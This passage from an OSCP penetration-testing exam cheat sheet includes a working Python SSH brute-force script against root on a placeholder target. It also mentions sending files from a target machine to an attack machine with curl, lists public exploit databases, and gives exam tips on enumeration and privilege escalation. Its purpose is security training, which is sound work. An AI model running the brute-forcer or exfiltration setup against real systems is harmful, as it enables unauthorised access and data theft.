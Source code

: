 Run this on your attack machine, and you can send files to it from the target machine with curl or any HTTP tool.

7. Basic SSH Brute Forcer

A simple SSH brute-force script using paramiko.

import paramiko

target_ip = 'TARGET_IP'
username = 'root'
passwords = ['password1', 'password2', 'password3']  # Replace with a list or wordlist

for password in passwords:
    try:
        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        ssh.connect(target_ip, username=username, password=password)
        print(f"[+] Success: {password}")
        ssh.close()
        break
    except:
        print(f"[-] Failed: {password}")

This brute-forces SSH login with a list of passwords. Be mindful of rate limits or lockout policies.

These Python scripts are lightweight and can help you automate or speed up your penetration testing during the OSCP exam. 


////////////////////////////////

Public Exploit Databases:
	•	Exploit-DB (https://www.exploit-db.com): Useful for finding public exploits for vulnerable software.
	•	PacketStorm Security (https://packetstormsecurity.com): Another resource for finding exploits and security tools.
 


////////////////////////////////

 **last-minute tips :**

	1.	Time Management:
	•	Break down the exam into segments. Spend a set amount of time (e.g., 30 minutes to 1 hour) on each machine before moving to the next. Prioritize the easier ones to gain points quickly.
	2.	Enumeration is Key:
	•	Start every machine with thorough enumeration (use tools like nmap, Gobuster, Nikto, etc.). Information gathered from this will guide your approach.
	3.	Document Everything:
	•	Keep detailed notes of your commands, exploits, and configurations. This will help with report writing and allow you to backtrack if needed.
	4.	Buffer Overflow (if applicable):
	•	Follow the standard methodology: find the offset, control EIP, etc. Refer to your cheat sheets for buffer overflow to ensure a smooth process.
	5.	Privilege Escalation:
	•	For Linux, check for SUID files, weak permissions, or misconfigurations. Use tools like LinPEAS or Linux Smart Enumeration.
	•	For Windows, look into vulnerable services or unquoted paths. Tools like WinPEAS or PowerUp will help here.
	6.	Don’t Panic:
	•	If stuck, take a short break, clear your mind, and come back to it. Sometimes, a fresh perspective helps.
	7.	Exploit Modification:
	•	Be prepared to modify public exploits. Often, they won’t work out-of-the-box. Focus on understanding the code to tweak it if necessary.
	8.	Buffer Management: